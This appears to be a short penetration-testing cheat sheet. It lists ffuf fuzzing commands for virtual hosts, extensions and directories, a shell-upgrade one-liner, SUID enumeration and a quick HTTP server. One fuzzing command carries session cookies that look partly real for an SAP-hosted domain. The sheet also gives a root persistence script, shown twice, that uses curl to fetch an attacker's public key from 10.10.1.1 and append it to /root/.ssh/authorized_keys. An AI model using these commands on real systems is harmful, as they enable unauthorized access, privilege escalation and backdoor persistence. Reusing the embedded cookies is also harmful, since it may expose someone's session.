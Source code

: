 * VHOST scan

```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://domain.com/ -H 'Host: FUZZ.domain.com' -ac
```
* Fuzz extensions
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://domain.com/indexFUZ
```

* Fuzz content
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://dev.domain.com/FUZZ -ac
```

```
ffuf -w Documents/fuzz/content_discovery_all.txt -b "JSESSIONID=weggejorist; BIGipServerdpdacca4b9f0669.hana.ondemand.com=weggejorist/wkJjIarIpdsw=; slo_regular_domains_eu1_ij1a2ql5iw_ij1a2ql5iw=weggejorist; JTENANTSESSIONID_ij1a2ql5iw=sRiYncosfVGnanaRZ%2BpN3%2FSAPj2zmRUuzsvmPcITCK8%3D; dpd.sessionTimeout.start=weggejorist" -u https://weggejorist.domain.com/dpd-web/FUZZ
```


* Diff two websites
```
diff <(curl -s http://dev.domain.com/static) <(curl -s http://dev.domain.com/Static)
```


* PTY 
`python3 -c 'import pty; pty.spawn("/bin/sh")'`

* Process tree
```ps -ef --forest ```

* SUID
```
find / -perm -u=s -type f 2>/dev/null
of
find / -perm -4000 2>/dev/null
```

* SSH
```
#!/bin/bash

mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

* Simple HTTP python
```
python3 -m http.server 8000
```

* SSH
```
mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```
